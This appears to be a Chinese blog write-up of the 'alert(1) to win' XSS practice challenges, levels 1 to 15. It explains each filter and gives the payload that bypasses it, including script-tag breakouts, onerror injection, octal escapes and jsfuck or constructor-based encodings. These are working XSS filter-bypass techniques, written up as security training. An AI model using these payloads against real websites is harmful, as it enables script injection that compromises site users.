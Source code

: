 ```yaml
---
layout:     post
title:      alert(1) to win 1-15关
subtitle:   XSS漏洞
date:       2020-11-16
author:     heria
header-img: img/post-bg-js-version.jpg
catalog: true
tags:
---
```




https://alf.nu/alert1

## 0X01Warmup

![image-20201116162702609](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116162702609.png)

无过滤，直接闭合“）

**payload**

");alert(1)//

![image-20201116162836925](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116162836925.png)

");alert(1,"

![image-20201116163049895](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116163049895.png)

## 0X02Adobe

![image-20201116163659012](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116163659012.png)

分析代码

replace函数将输入的"替换成为\\",通过转义字符使”失效

e.g   replace(/\s/g,"")其中"/ /"这个是固定写法，"\s"是转移符号用以匹配任何空白字符，包括空格、制表符、换页符等等，"g"表示全局匹配将替换所有匹配的子串，如果不加"g"当匹配到第一个后就结束了。这个例子的意思就是将原字符串中的所有空白字符替换成""，比如"abc d efg "字样的字符串使用这个函数后将变成"abcdefg"。

payload

</script><script>alert(1)//

![image-20201116165406481](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116165406481.png)

\\");alert(1)//

![image-20201116165800445](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116165800445.png)

## 0X03JSON

![image-20201116170113955](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116170113955.png)

使用`JSON.stringify`进行了处理思路同上，略有差异

payload

</script><script>alert(1)//

![image-20201116170520721](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116170520721.png)

\\");alert(1)//失效

![image-20201116170721272](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116170721272.png)

## 0X04Markdown



![image-20201116171020942](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116171020942.png)



![image-20201116171010608](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116171010608.png)

将`<`和`"`转成了HTML实体

如果存在`http://`的字符串， 会可以生成一个`a`标签

解析Markdown的图片的语法，如果存在`[[img123|Description]]`格式的字符串，则变为`<img alt="Description" src="img123.gif">`。

payload

```
[[a|http://onerror=alert(1)//]]
```



![image-20201116172538583](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116172538583.png)



![image-20201116172432887](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116172432887.png)



![image-20201116172608170](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116172608170.png)



## 0X05DOM



![image-20201116174423655](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116174423655.png)

代码实现一个根据输入来创建DOM节点的功能

如果输入是`TextNode#foo`，那么执行的代码就是`document.createTextNode("foo")`。

![image-20201116174406583](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116174406583.png)

几个常用的：

- `createElement()` 创建一个元素节点
- `createTextNode()` 创建一个文本节点
- `createAttribute()` 创建一个属性节点
- `createComment()` 创建一个注释节点

payload

通过`createComment()`创建一个注释节点，然后闭合注释

```
Comment#><script>alert(1)</script>
Comment#><iframe onload=alert(1)
```

![image-20201116174718507](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116174718507.png)

![image-20201116174750013](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116174750013.png)

## 0X06Callback

![image-20201116174946744](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116174946744.png)



首先将输入的字符串按照`#`分割为两部分，第一部分是回调函数，只能使用大小写字母、`[`、`]`、`'`，第二部分是`JSON`数据。
而且后面又将`JSON`数据中的尖括号转义成了`\\u003c`。

![image-20201116180033954](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116180033954.png)



## 0X07Skandia

![image-20201116180612971](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201116180612971.png)

对输入转换为大写

进行编码绕过

http://xssor.io/

![image-20201118173152415](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201118173152415.png)

![image-20201118173330292](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20201118173330292.png)

alert（1） 中（1）可不做编码



## 0X08Template

![image-20201119155023929](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201119155023929.png)

代码对输入的`<`、`>`、`&`、`"`、`'`、进行了转义，输入的字符串会拼接在`{name}`处。
由于没有过滤`\`，可以利用`JS`的8进制或者16进制编码来绕过。

\u003 或\x3c

![image-20201119155235465](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201119155235465.png)

## 0X09JSON2



![image-20201119163910184](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201119163910184.png)

**JSON.stringify 函数: 可将 JavaScript 对象转换为Json表示字符串**

stringify 对“ \做处理，同时替换/script 为空 通过双写绕过

payload

</scr</scriptipt><script>alert(1)//

![image-20201119163418811](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201119163418811.png)

## 0X0ACallback2

![image-20201120141841104](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120141841104.png)

与第6题的类似，但是转义了`/`，导致`//`这个注释符无法使用，但是`JavaScript`的注释符有三种，分别是`//`、`/**/`、`<!--`。
可以使用`<!--`来注释。

![image-20201120142523267](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120142523267.png)

## 0X0BSkandia 2

![image-20201120142644841](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120142644841.png)

把<>替换成-  字符替换为大写（注：[]并没有过滤，这里的[]是正则中代表字符集合）

![image-20201120144105311](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120144105311.png)

![image-20201120144133331](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120144133331.png)

输入中间的乱七八糟一大堆是alert(1)的jsfuck，jsfuck是一种编码形式，用于js时可以被渲染为alert(1)。http://www.jsfuck.com/

或者jjencode（编码后更短）

https://utf-8.jp/public/jjencode.html

首先应该注入的payload是`"+alert(1))//"`
但是要想办法用相等效果的语句替换掉alert(1)。
在博客上看到一个方法也可以触发alert(1)

```
[]["sort"]["constructor"]("alert(1)")()
```

这个关键在于`Function("code")`。它可以将字符串作为参数传进去，返回一个以传进去的字符串为函数体的匿名函数。所以这个函数可以让你将字符串当作代码来执行。我们可以通过`[]['sort']['constructor']`来获得这个函数。
[![img](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/3.png)](https://danta.fun/image/3.png)
顺便简单说一下，`[]`定义了一个空数组，数组自带了很多方法，`sort`是其中一个，还有很多方法，随便用一个都行，这里就用了sort。`[]["sort"]`的效果相当于`[].sort`。
所有payload可以改为`"+[]["sort"]["constructor"]("alert(1)")())+"`
此时又多了一个新的问题，用什么来代替上面的三个字符串呢？
这时候就可以用题目Template中用到的方法了，用八进制来代替字母。
所以答案就出来了：
solution(99): `"+[]["\160\157\160"]["\143\157\156\163\164\162\165\143\164\157\162"]('\141\154\145\162\164(1)')()+"`



## 0X0Ciframe

![image-20201120155157190](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120155157190.png)

这题关键在于使得`youWon`这个变量的值为true，然后就可以触发alert(1)了。首先看一下我们注入的地方是一个URL，题目有说，这个url页面返回的页面就是我们输入的内容。也就是说iframe的内容是由我们决定的。
我们的输入会包裹在一个`script`标签里面。
要做出这道题，我们要知道两点iframe的特性

1. iframe的name属性值，同时会注入到父页面的全局窗口对象中。
2. iframe的name属性，则iframe的window.name的值同时会设置为这个name属性值。反过来也是一样的，不过有个前提时iframe并没有设置name属性。也就是说如果设置了iframe的window.name，同时也会将iframe的name属性值设置为同样的值（前提是它不存在的话，不能被覆盖）

payload:

name='youWon'

![image-20201120155028099](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120155028099.png)





## 0X0DTI(S)M

![image-20201120162224318](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120162224318.png)

本题用到了一个小`trick`:
`HTML5`解析器会将`<!--<script>`到`</script>`之间的任何东西都当作`JavaScript`代码处理，同时要确保代码中还有一个`-->`来防止解析器报语法错误。

首先输入一个`<!--<script>`，此时的输出中

![image-20201120162425465](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120162425465.png)

这一段所有的代码都会当做`JS`执行。
在后面有个正则表达式`!/^http:.*/`，其中的`*/`可以当做注释，那么我们在前面再加入一个`/*`即可闭合。
此时的输出为

![image-20201120162706725](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120162706725.png)

那么，在注释符之前添加要执行的代码就可以了。

```
if(alert(1)/*<!--<script>
```

![image-20201120162200054](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120162200054.png)



![image-20201120162214880](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201120162214880.png)



## 0X0EJSON3

![image-20201123105301424](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201123105301424.png)



stringify处理+正则过滤</ 

使用<!--<script>。。。</script>解析js

![image-20201123105728107](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201123105728107.png)payload

其中`/script><script>console.log(")/`被当做了正则表达式解析，后面通过分号分割后，成功执行代码`alert(1)`。

`<!--<script>#)/;alert(1)//-->`
分析一下这个答案。
输入这个答案，会输入如下结果：

```
<script>console.log("<!--<script>")</script><script>console.log(")/;alert(1)//-->")</script>
```

因为我们注入了`<!--<script>`，导致parser将这一段都当作JS来处理。

```
console.log("<!--<script>")</script><script>console.log(")/;alert(1)//-->")
```

js引擎会解析成如下的样子：

```
console.log("junk_string") < /junk_regexp/ ; alert(1) // -->
```

其中
junk_string代表： `<!--<script>`
junk_regexp代表： `script><script>console.log("")`
我们的solution中注入的其中两个字符`)/`就为了欺骗JS引擎，JS引擎会将两个斜杠之间的内容当作正则表达式处理，用这个办法来闭合掉这些多余的字符。



![image-20201123111814224](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201123111814224.png)



![image-20201123112307841](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201123112307841.png)

实际

1与2配对  

![image-20201123113530695](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201123113530695.png)



## 0X0FSkandia3

![image-20201124160901200](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201124160901200.png)



代码过滤了`\`、`<`、`>`、同样使用`jsfuck`就能过。因为对`\`进行了过滤，不能使用八进制编码来绕过了。
根据`jsfuck`的[原理](https://zh.wikipedia.org/wiki/JSFuck)，我们借助匿名函数来构造一个更短的`Payload`。

```
[]["sort"]["constructor"]('alert(1)')()
```

左边的输入是可以返回右边的字符串的。大家可以在试试。
所以可以用这个办法来获取我们需要的字符串
[![img](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/2.png)](https://danta.fun/image/2.png)
所以最后的payload(246):

```
"+[][(''+!1)[3]+(''+{})[1]+(''+!0)[1]+(''+!0)[0]][(''+{})[5]+(''+{})[1]+(''+{}[0])[1]+(''+!1)[3]+(''+!0)[0]+(''+!0)[1]+(''+!0)[2]+(''+{})[5]+(''+!0)[0]+(''+{})[1]+(''+!0)[1]]((''+!1)[1] + (''+!1)[2] + (''+!1)[4] +(''+!0)[1]+(''+!0)[0]+"(1)")())//`
```

如果把我们所需要的字母都赋给一个变量，那么这个payload可以更短一些

```
");_=''+!1+!0+{}[0]+{};[][_[3]+_[19]+_[6]+_[5]][_[23]+_[19]+_[10]+_[3]+_[5]+_[6]+_[7]+_[23]+_[5]+_[19]+_[6]](_[1]+_[2]+_[4]+_[6]+_[5]+'(1)')()//
```